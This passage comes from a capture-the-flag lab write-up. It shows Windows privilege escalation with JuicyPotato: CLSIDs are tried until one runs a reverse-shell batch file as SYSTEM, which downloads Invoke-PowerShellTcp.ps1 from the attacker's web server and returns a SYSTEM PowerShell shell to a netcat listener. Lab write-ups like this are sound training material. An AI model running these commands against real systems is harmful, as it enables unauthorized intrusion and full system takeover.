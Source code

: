                                      [04]: dead:beef::a947:36cc:c1a8:7109
                                     [05]: dead:beef::4ccb:aafa:2793:40a8
    Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
    

I can go to the [JuicyPotato GitHub](https://github.com/ohpe/juicy-
potato/tree/master/CLSID) and find a [list of CLSIDs for Windows 10
Enterprise](https://github.com/ohpe/juicy-
potato/tree/master/CLSID/Windows_10_Enterprise). I’ll try a few that run as
“NT AUTHORITY\SYSTEM” until I get one to work.

    
    
    C:\users\Destitute\appdata\local\Temp>jp.exe -t * -p \users\Destitute\appdata\local\Temp\rev.bat -l 9001 -c {5B3E6773-3A99-4A3D-8096-7765DD11785C}                                                                
    jp.exe -t * -p \users\Destitute\appdata\local\Temp\rev.bat -l 9001 -c {5B3E6773-3A99-4A3D-8096-7765DD11785C}                                                                                                      
    Testing {5B3E6773-3A99-4A3D-8096-7765DD11785C} 9001
    COM -> recv failed with error: 10038
    
    C:\users\Destitute\appdata\local\Temp>jp.exe -t * -p \users\Destitute\appdata\local\Temp\rev.bat -l 9001 -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}                                                                
    jp.exe -t * -p \users\Destitute\appdata\local\Temp\rev.bat -l 9001 -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}                                                                                                      
    Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 9001
    ......
    [+] authresult 0
    {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
    
    [+] CreateProcessWithTokenW OK
    

When it does, I get a request on my `python` webserver:

    
    
    10.10.10.116 - - [14/Jan/2019 19:13:46] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
    

And then a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.116.
    Ncat: Connection from 10.10.10.116:49723.
    Windows PowerShell running as user CONCEAL$ on CONCEAL
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    
    PS C:\Windows\system32>whoami
    nt authority\system
    

Now now I’ll grab the root flag:

    
    
